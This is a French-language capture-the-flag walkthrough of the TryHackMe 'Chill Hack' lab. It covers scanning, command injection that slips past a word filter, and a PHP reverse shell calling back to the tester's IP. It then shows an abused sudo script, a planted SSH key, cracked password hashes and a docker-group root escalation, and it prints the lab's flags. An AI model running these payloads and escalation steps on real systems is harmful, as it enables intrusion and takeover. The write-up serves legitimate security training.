








# Chill Hack #

## Task 1 Investigate! ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.21.161 chillhack.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A chillhack.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 11:00 CEST
Nmap scan report for chillhack.thm (10.10.21.161)
Host is up (0.035s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/5%OT=21%CT=1%CU=43542%PV=Y%DS=2%DC=T%G=Y%TM=610BA8D0
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=2%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   33.64 ms 10.9.0.1
2   33.79 ms chillhack.thm (10.10.21.161)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.72 seconds

```

Ici nous avons plusieurs services : 
Le service FTP sur le port 21 qui fonctionne en mode anonymous.   
Le service SSH sur le port 22.    
Le service HTTP sur le port 80.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp chillhack.thm
Connected to chillhack.thm.
220 (vsFTPd 3.0.3)
Name (chillhack.thm:tim): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (90 bytes).
226 Transfer complete.
90 bytes received in 0.00 secs (68.0795 kB/s)
ftp> exit
221 Goodbye.

tim@kali:~/Bureau/tryhackme/write-up$ cat note.txt 
Anurodh told me that there is some filtering on strings being put in the command -- Apaar

```

On se connect sur le service FTP avec le nom anonymous.   
On récupère le fichier note.txt.   
Quand on lit la note il nous dit qu'il y a un filtrage sur la commande.    


Sur la page principale on trouve rien.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://chillhack.thm/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://chillhack.thm/css/]
/fonts                (Status: 301) [Size: 314] [--> http://chillhack.thm/fonts/]
/images               (Status: 301) [Size: 315] [--> http://chillhack.thm/images/]
/index.html           (Status: 200) [Size: 35184]                                 
/js                   (Status: 301) [Size: 311] [--> http://chillhack.thm/js/]    
/secret               (Status: 301) [Size: 315] [--> http://chillhack.thm/secret/]
/server-status        (Status: 403) [Size: 278]           
```

Avec gobuster on trouve un répertoire qui est \/secret   






Dans cette page on peut mettre une commande mais elle filtre certain mot.    



On utilise le " pour traverser le filtre.  



En regardant le code source de la page on voit le code source de la page php.   
Dans le code on voit certains mots interdit comme nc, python, bash, perl, rm, cat ...

```bash 
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le port on va initier un reverse shell.


On injecte un reverse shell.   
La commande mise est : p"h"p -r '$sock=fsockopen\(\"10.9.228.66\",1234\);exec\(\"\/bin\/sh -i <&3 >&3 2>&3"\);'

**User Flag**

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"

www-data@ubuntu:/var/www$ ls /home/
ls /home/
anurodh  apaar	aurick

cd /home/anurodh
bash: cd: /home/anurodh: Permission denied

cd /home/apaar/
www-data@ubuntu:/home/apaar$ ls
ls
local.txt

cat: local.txt: Permission denied
```

On voit que l'on a pas les bon droits pour lires le fichier local.txt

```bash
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh

ls -al /home/apaar/.helpline.sh
-rwxrwxr-x 1 apaar apaar 286 Oct  4  2020 /home/apaar/.helpline.sh
```

On voit que l'on exécuter un script sans mot de passe avec sudo en précisant apaar comme utilisateur.    
On peut que le lire.    

```bash
www-data@ubuntu:/home$ cat /home/apaar/.helpline.sh
cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"

www-data@ubuntu:/home$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: /bin/ls
/bin/ls
Hello user! I am /bin/ls,  Please enter your message: /bin/ls
/bin/ls
anurodh  apaar	aurick
Thank you for your precious time!
www-data@ubuntu:/home$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: /bin/bash
/bin/bash
Hello user! I am /bin/bash,  Please enter your message: /bin/bash
/bin/bash
id
id

uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

On regarde le script on voit que le 2 ème read sera afficher mit sur le bash avec en effaçant tous les messages d'erreurs.  
On exécuter le script avec les droits de apaar.
On demande exécuter \/bin\/bash.    
On obtient un shell avec les droit apaar.  
On peut lire le flag.

La réponse est : {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}    

**Root Flag**

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
apaar@ubuntu:~$ 

apaar@ubuntu:~$ netstat -tulpn | grep LISTEN
netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1001 but you should be root.)
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Nous avons deux port sur écoute sur le local hosts.
Le port 9001 et 3306.   
Le port 3306 est connu pour être celui de mysql.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh-keygen -f apaar
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in apaar
Your public key has been saved in apaar.pub
The key fingerprint is:
SHA256:orscG2vfkahK77PNdr3cZFDv/emJTFtCIGN7Xou1Wrs tim@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|                 |
|         + ..    |
|        . +...   |
|      . S... +.  |
|     . o .o.=.o. |
|  . + . o. oo*...|
| . ooX...o.+= * +|
|  .+@*+.. oo.Eo+.|
+----[SHA256]-----+
```

On crée une clef publique que l'on va remplacer pour l'user apaar.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat apaar.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC5NgB7kUWmstcDBJQLPxGEIQ9SCRD1gIc3PghCsboN+hj6E1k/+ekokJ6+LRSfcoAps7HAQ9FZUyXpLlyEhrVz6eeAD8XGwaq03BYyaYbUFGJU+LgMVLa9T2NDXTxqHtovhwUr9zO/mj9t6pABZANowajIkppf2YqfcZNCL0Aii2PFg2cAbBfd2QfUA7yO8DukQzE0BfQv1ELUeStllkCd5ShhiL+mLh5SFUyET98JDBPJ6/zSclHsUnsDK6S1yd12Gb+5WWCZslZ2mEiTFWKf85x5DqVgW+1g9HY+nY3pXCylTPyffOHYpNTmf5mB0VT9IiOW0poEkIf64u0SqYeKMs1iaTDC6Sdq0tVm4fxNAhH9bZOjRMQeo8BGKyAlFI9xqSkreuhZ5SJtyWn1Z6rpqPtRbZmwGy9xt+Cr7LomT/cftYRRRCK2k+NUFcVkd/0XOnwroGqo95Yo43RiKAtblNWuy9QqHrwZdCJnWOfrmHnRlupTIkV7NcNTC47uQgk= tim@kali

python3 -c "import pty;pty.spawn('/bin/bash')"
apaar@ubuntu:/var/www/html/secret$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC5NgB7kUWmstcDBJQLPxGEIQ9SCRD1gIc3PghCsboN+hj6E1k/+ekokJ6+LRSfcoAps7HAQ9FZUyXpLlyEhrVz6eeAD8XGwaq03BYyaYbUFGJU+LgMVLa9T2NDXTxqHtovhwUr9zO/mj9t6pABZANowajIkppf2YqfcZNCL0Aii2PFg2cAbBfd2QfUA7yO8DukQzE0BfQv1ELUeStllkCd5ShhiL+mLh5SFUyET98JDBPJ6/zSclHsUnsDK6S1yd12Gb+5WWCZslZ2mEiTFWKf85x5DqVgW+1g9HY+nY3pXCylTPyffOHYpNTmf5mB0VT9IiOW0poEkIf64u0SqYeKMs1iaTDC6Sdq0tVm4fxNAhH9bZOjRMQeo8BGKyAlFI9xqSkreuhZ5SJtyWn1Z6rpqPtRbZmwGy9xt+Cr7LomT/cftYRRRCK2k+NUFcVkd/0XOnwroGqo95Yo43RiKAtblNWuy9QqHrwZdCJnWOfrmHnRlupTIkV7NcNTC47uQgk= tim@kali" > /home/apaar/.ssh/authorized_keys
```

On injecte notre clef dans authorized_keys.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh -L 9001:127.0.0.1:9001 -i apaar apaar@chillhack.thm
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Aug  5 13:51:22 UTC 2021

  System load:  0.08               Processes:              130
  Usage of /:   24.8% of 18.57GB   Users logged in:        0
  Memory usage: 21%                IP address for eth0:    10.10.252.24
  Swap usage:   0%                 IP address for docker0: 172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

19 packages can be updated.
0 updates are security updates.


Last login: Sun Oct  4 14:05:57 2020 from 192.168.184.129
```

On établie un redirection de port.  



Le port 9001 est bien un serveur web, il demande des identifiants.   

Sachant que sur Linux la plupart des sites webs sont stockés dans www regardons le.   

```bash
apaar@ubuntu:/$ cd /var/www
apaar@ubuntu:/var/www$ 

apaar@ubuntu:/var/www$ ls
files  html

apaar@ubuntu:/var/www$ cd files
apaar@ubuntu:/var/www/files$

apaar@ubuntu:/var/www/files$ ls
account.php  hacker.php  images  index.php  style.css


apaar@ubuntu:/var/www/files$ cat index.php 
<html>
<body>
<?php
	if(isset($_POST['submit']))
	{
		$username = $_POST['username'];
		$password = $_POST['password'];
		ob_start();
		session_start();
		try
		{
			$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
			$con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
		}
		catch(PDOException $e)
		{
			exit("Connection failed ". $e->getMessage());
		}
		require_once("account.php");
		$account = new Account($con);
		$success = $account->login($username,$password);
		if($success)
		{
			header("Location: hacker.php");
		}
	}
?>
<link rel="stylesheet" type="text/css" href="style.css">
	<div class="signInContainer">
		<div class="column">
			<div class="header">
				<h2 style="color:blue;">Customer Portal</h2>
				<h3 style="color:green;">Log In<h3>
			</div>
			<form method="POST">
				<?php echo $success?>
                		<input type="text" name="username" id="username" placeholder="Username" required>
				<input type="password" name="password" id="password" placeholder="Password" required>
				<input type="submit" name="submit" value="Submit">
        		</form>
		</div>
	</div>
</body>
</html>

```

Ici on trouve dans www un répertoire \/files.      
Le fichier index.php peut contenir des informations.    
Quand on regarde le contenu on voit des identifiants pour un connexion sql.   
Nom d'utilisateur : root     
Mot de passe : !@m+her00+@db        

```bash
apaar@ubuntu:/$ mysql -u root -p
mysql -u root -p
Enter password: !@m+her00+@db

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

No entry for terminal type "unknown";
using dumb terminal settings.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.01 sec)

mysql> use webportal;
use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

On se connecte à la base de donnés mysql. 
On regarde les informations dans les tables.   
On trouve deux mots passe qui sont sous forme de hash.   
Copions les deux hash dans fichier pour les casser.   
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hash-identifier 7e53614ced3640d5de23f111806cc4fd | head -20
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x

tim@kali:~/Bureau/tryhackme/write-up$ cat hash
7e53614ced3640d5de23f111806cc4fd
686216240e5af30df0501e53c789a649

tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt --quiet
686216240e5af30df0501e53c789a649:dontaskdonttell
7e53614ced3640d5de23f111806cc4fd:masterpassword
```

Avec hash-identifier on sait que c'est du MD5.     
Avec hashcat on retrouve les mots de passes qui sont : dontaskdonttell et masterpassword

Aurick : masterpassword           
cullapaar : dontaskdonttell        



Avec l'un des noms d'utilisateur mot de passe on arrive sur se portail.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://127.0.0.1:9001/images/hacker-with-laptop_23-2147985341.jpg -nv
2021-08-05 16:29:14 URL:http://127.0.0.1:9001/images/hacker-with-laptop_23-2147985341.jpg [68841/68841] -> "hacker-with-laptop_23-2147985341.jpg" [1]

tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg
Entrez la passphrase: 
�criture des donn�es extraites dans "backup.zip".

tim@kali:~/Bureau/tryhackme/write-up$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] source_code.php password: 
   skipping: source_code.php         incorrect password
```

Sur le portail il y a des images.  
Sur une des images il y a un fichier caché.   
C'est un fichier zip protégé par un mot de passe.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ zip2john backup.zip > hash
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: 2b chk, TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3

tim@kali:~/Bureau/tryhackme/write-up$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word        (backup.zip/source_code.php)
1g 0:00:00:00 DONE (2021-08-05 16:37) 25.00g/s 409600p/s 409600c/s 409600C/s total90..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le mot de passe trouvé est : pass1word   

```bash
im@kali:~/Bureau/tryhackme/write-up$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] source_code.php password: 
  inflating: source_code.php    

tim@kali:~/Bureau/tryhackme/write-up$ cat source_code.php 
<html>
<head>
	Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
			Email: <input type="email" name="email" placeholder="email"><br><br>
			Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
		</form>
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>

```

On trouve un nouveau mot de passe qui est encodé en base64.  
Mot de passe encodé : IWQwbnRLbjB3bVlwQHNzdzByZA==    

Et aussi un nom d'utilisateur qui est Anurodh.  
```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
!d0ntKn0wmYp@ssw0rdt
```

Le mot passe est : !d0ntKn0wmYp@ssw0rdt   

```bash
www-data@ubuntu:/var/www/html/secret$ su anurodh
su anurodh
Password: !d0ntKn0wmYp@ssw0rd
anurodh@ubuntu:/var/www/html/secret$ id
id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

On se connect sur le compte de l'utilisateur anurodh.
On voit que l'on appartient au groupe docker.  

```bash
anurodh@ubuntu:/var/www/html/secret$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
<docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# id
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cd root
cd root
# ls
ls
proof.txt
# cat proof.txt	
cat proof.txt


					{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}


Congratulations! You have successfully completed the challenge.


         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
